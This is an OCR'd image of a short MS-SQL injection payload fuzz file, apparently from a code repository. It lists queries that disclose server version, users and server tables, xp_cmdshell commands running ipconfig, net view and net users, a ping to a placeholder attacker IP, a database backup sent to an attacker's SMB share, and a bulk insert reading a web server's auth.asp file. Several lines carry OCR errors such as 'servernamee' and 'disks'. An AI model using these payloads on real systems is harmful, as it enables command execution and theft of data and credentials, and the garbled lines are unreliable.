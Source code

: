     # ms-sqli info disclosure payload fuzzfile
    # replace regex with your fuzzer for best results <attackerip> <sharename>
    # run wireshark or tcpdump, look for incoming smb or icmp packets from victim
    # might need to terminate payloads with ;--
    select @@version
    select @@servernamee
    select @@microsoftversione
    select * from master..sysserverse
    select * from sysusers
    exec master..xp_cmdshell 'ipconfig+/all'	
    exec master..xp_cmdshell 'net+view'
    exec master..xp_cmdshell 'net+users'
    exec master..xp_cmdshell 'ping+<attackerip>'
    BACKUP database master to disks='\\<attackerip>\<attackerip>\backupdb.dat'
    create table myfile (line varchar(8000))" bulk insert foo from 'c:\inetpub\wwwroot\auth.asp�'" select * from myfile"--
